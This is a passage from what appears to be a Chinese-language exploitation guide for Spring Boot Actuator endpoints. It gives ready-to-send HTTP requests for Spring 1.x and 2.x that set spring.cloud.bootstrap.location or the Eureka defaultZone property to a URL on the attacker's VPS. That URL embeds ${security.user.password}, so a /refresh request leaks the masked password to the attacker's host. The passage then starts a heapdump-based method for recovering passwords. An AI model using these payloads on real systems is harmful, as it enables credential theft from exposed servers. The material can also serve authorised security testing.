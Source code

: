 spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/?=${security.user.password}"}
```



- `eureka.client.serviceUrl.defaultZone` 方法（**不适用于**明文数据中有特殊 url 字符的情况）：



spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/${security.user.password}
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/${security.user.password}"}
```



##### 步骤四： 刷新配置

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json

```

### 0x06：获取被星号脱敏的密码的明文 (方法四)

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 * 号替换达到脱敏的效果

#### 利用条件：

- 可正常 GET 请求目标 `/heapdump` 或 `/actuator/heapdump` 接口
